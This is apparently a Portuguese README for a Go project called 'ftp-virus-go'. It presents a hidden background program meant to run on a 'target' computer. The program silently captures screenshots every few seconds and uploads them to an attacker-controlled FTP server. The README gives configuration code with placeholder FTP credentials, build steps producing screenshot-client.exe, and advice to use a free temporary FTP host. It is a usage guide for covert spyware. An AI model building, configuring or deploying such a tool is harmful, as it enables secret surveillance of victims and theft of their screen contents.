 # ftp-virus-go

Uma aplicação que roda em segundo plano para capturar telas e enviá-las a um servidor FTP remoto.

## Visão Geral

Esta ferramenta foi projetada para ser executada no computador do cliente (alvo). Uma vez iniciada, ela:

- Roda silenciosamente em segundo plano sem janela visível
- Captura telas em intervalos configuráveis
- Envia as capturas para um servidor FTP que você controla
- Reconecta automaticamente se a conexão FTP for perdida

## Configuração

### Configuração do Servidor FTP

1. Crie um servidor FTP temporário gratuito em [SFTPCloud](https://sftpcloud.io/tools/free-ftp-server)
   - Isso fornece um servidor FTP gratuito por 1 hora com 1GB de armazenamento
   - Anote o endereço do servidor, nome de usuário e senha fornecidos
   
2. Ou use qualquer outro servidor FTP de sua escolha

### Configuração do Cliente

1. Abra `cmd/client/main.go` e configure.

```go
config := pkg.Config{
    ServerAddress: "seu-servidor-ftp.com", // Substitua pelo endereço do seu servidor FTP
    Username:      "seu-usuario",          // Substitua pelo seu nome de usuário FTP
    Password:      "sua-senha",            // Substitua pela sua senha FTP
    Interval:      5,                      // Captura a cada 5 segundos
}
pkg.StartMonitoringWithConfig(config)
```

### Compilando a aplicação

Execute o script `build.bat` para compilar a aplicação:

```
build.bat
```

Isso criará o arquivo `screenshot-client.exe` na pasta bin/

### Parando a aplicação

```cmd
taskkill /F /IM screenshot-client.exe
```
